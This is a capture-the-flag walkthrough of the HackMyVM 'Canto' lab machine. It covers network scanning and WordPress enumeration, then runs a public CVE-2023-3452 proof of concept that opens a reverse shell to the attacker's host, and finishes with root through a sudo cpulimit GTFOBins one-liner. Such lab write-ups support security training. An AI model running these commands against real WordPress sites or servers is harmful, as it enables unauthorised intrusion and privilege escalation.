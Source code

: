 ```yaml
---
title: "HackMyVM - Canto"
date: 2024-06-05 12:00:00 +/-0530
categories: [HackMyVM]
tags: [CTF, HMV]     # TAG names should always be lowercase
---
```



![logo](../assets/img/Canto/intro.png)


## Description


- **Title** : Canto
- **Difficulty** : Easy
- **Release date** : 2024-06-05
- **Notes** : *Enjoy it!! ;)*
- **Download** [here](https://downloads.hackmyvm.eu/canto.zip) !



## Foothold 

### Recon

To know the vulnerable IP address, we'll use **Netdiscover** : 
```bash
netdiscover -i "wlo1" -r 192.168.1.0/24
```

The output is : 
```bash
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.200   08:00:27:0b:91:9f      1      60  PCS Systemtechnik GmbH        
 ------------------------------- REDACTED -------------------------------------
 ```

### Enumeration

We have the IP address, so we can start a scan : 
```bash
rustscan -a 192.168.1.200 -r 1-65535 -- -A -oN nmap.txt
```

Look at the output : 
```bash
# Nmap 7.93 scan initiated Wed Jun  5 11:24:31 2024 as: nmap -vvv -p 22,80 -A -oN nmap.txt 192.168.1.200
Nmap scan report for canto.lan (192.168.1.200)
Host is up, received arp-response (0.00035s latency).
Scanned at 2024-06-05 11:24:31 CEST for 10s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.3p1 Ubuntu 1ubuntu3.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c6af1821fa3f3cfc9fe4ef04c916cbc7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKkMLZHCokv5rpKTUUfitgdTSiyieZXC1kqsQS8DEnLgk6x5fOmlzHim2qgiwoJhyEJa7Nj1k3K6pwm5RVxEjEU=
|   256 ba0e8f0b2420dc75b71b04a181b66d64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDR8+o8qabpIHzS2zgBZDxfX0Tm5eWBBstEt5QeYN04+
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 6.5.3
|_http-server-header: Apache/2.4.57 (Ubuntu)
|_http-title: Canto
MAC Address: 08:00:27:0B:91:9F (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=6/5%OT=22%CT=%CU=42194%PV=Y%DS=1%DC=D%G=N%M=080027%TM=
OS:66602ED9%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%T
OS:S=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=
OS:M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=F
OS:E88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=
OS:A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=
OS:Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%
OS:T=40%CD=S)

Uptime guess: 16.367 days (since Mon May 20 02:36:06 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.35 ms canto.lan (192.168.1.200)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  5 11:24:41 2024 -- 1 IP address (1 host up) scanned in 9.96 seconds
```

There are two open ports. The SSH service doesn't seem vulnerable.

Open your web browser and go to ``http://192.168.1.200/`` :

![Webpage](../assets/img/Canto/web.png)

Use **Gobuster** to discover new directories : 
```bash
gobuster dir --url 'http://192.168.1.200' -w /opt/seclists/Discovery/Web-Content/big.txt -x html,php,zip,txt,7z,bak,pdf
```

As you can see, this is a WordPress website : 
```bash
/index.php            (Status: 301) [Size: 0] [--> http://192.168.1.200/]
/license.txt          (Status: 200) [Size: 19915]
/readme.html          (Status: 200) [Size: 7401]
/server-status        (Status: 403) [Size: 278]
/wp-admin             (Status: 301) [Size: 317] [--> http://192.168.1.200/wp-admin/]
/wp-content           (Status: 301) [Size: 319] [--> http://192.168.1.200/wp-content/]
/wp-includes          (Status: 301) [Size: 320] [--> http://192.168.1.200/wp-includes/]
/wp-config.php        (Status: 200) [Size: 0]
/wp-login.php         (Status: 200) [Size: 5147]
/wp-trackback.php     (Status: 200) [Size: 135]
Progress: 163808 / 163816 (100.00%)
/xmlrpc.php           (Status: 405) [Size: 42]
```

### WordPress Enum

Thanks to **WPScan**, we can know more about WordPress website : 
```bash
wpscan --url 'http://192.168.1.200/' -e u
```

Its find only one user : 
```bash
[i] User(s) Identified:

[+] erik
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.1.200/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

I tried to brute force the ``wp-login.php`` but it doesn't work. I was really stuck but I remember that the machine name is often a hint. 

So, I searched for ``Canto exploit WordPress`` and I found this : [https://github.com/leoanggal1/CVE-2023-3452-PoC](https://github.com/leoanggal1/CVE-2023-3452-PoC)

Check if this plugin is installed on the server. Go to ``http://192.168.1.200/wp-content/plugins/canto/`` : 

![Canto](../assets/img/Canto/url.png)

Yes, it is installed ! 

Use the exploit to get a reverse shell : 
```bash
python3 CVE-2023-3452.py -u http://192.168.1.200 -LHOST 192.168.1.43 -NC_PORT 1337 -s shell.php
```

Type ``id`` and we are ``www-data``.

## User 

We have a user called **Erik**. Go into the ``home`` folder and there are some notes : 
```bash
$ ls -la
total 36
drwxr-xr-- 5 erik www-data 4096 May 12 13:56 .
drwxr-xr-x 3 root root     4096 May 12 14:24 ..
lrwxrwxrwx 1 root root        9 May 12 13:56 .bash_history -> /dev/null
-rw-r--r-- 1 erik erik      220 Jan  7  2023 .bash_logout
-rw-r--r-- 1 erik erik     3771 Jan  7  2023 .bashrc
drwx------ 2 erik erik     4096 May 12 12:21 .cache
drwxrwxr-x 3 erik erik     4096 May 12 12:03 .local
-rw-r--r-- 1 erik erik      807 Jan  7  2023 .profile
drwxrwxr-x 2 erik erik     4096 May 12 17:22 notes
-rw-r----- 1 root erik       33 May 12 12:22 user.txt
$ cd notes
$ ls -la
total 16
drwxrwxr-x 2 erik erik     4096 May 12 17:22 .
drwxr-xr-- 5 erik www-data 4096 May 12 13:56 ..
-rw-rw-r-- 1 erik erik       68 May 12 12:07 Day1.txt
-rw-rw-r-- 1 erik erik       71 May 12 17:22 Day2.txt
$ cat Da*	
On the first day I have updated some plugins and the website theme.
I almost lost the database with my user so I created a backups folder.
$
```

We need to find a backups folder. You can use **Find** or do this manually.

Go to ``/var/wordpress/backups`` and print the note : 
```bash
$ cat 12052024.txt
------------------------------------
| Users	    |      Password        |
------------|----------------------|
| erik      | th1sIsTheP3ssw0rd!   |
------------------------------------
$
```

Use **SSH** to connect with **Erik** user ! 

```bash
erik@canto:~$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
erik@canto:~$
```


## Root

To finish, we need to be root.

Check sudo permissions with ``sudo -l`` :
```bash
erik@canto:~$ sudo -l
Matching Defaults entries for erik on canto:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User erik may run the following commands on canto:
    (ALL : ALL) NOPASSWD: /usr/bin/cpulimit
erik@canto:~$
```

Thanks to [GTFOBins](https://gtfobins.github.io/gtfobins/cpulimit/), we'll be root ! Use this command : ``sudo cpulimit -l 100 -f /bin/sh`` : 

```bash
# id && pwd     
uid=0(root) gid=0(root) groups=0(root)
/root
#
```

We are root ! 

```bash
# cat root.txt
1b56eefaab2c896e57c874a635b24b49
#
```


## Conclusion

The box was interesting. Thanks for reading !
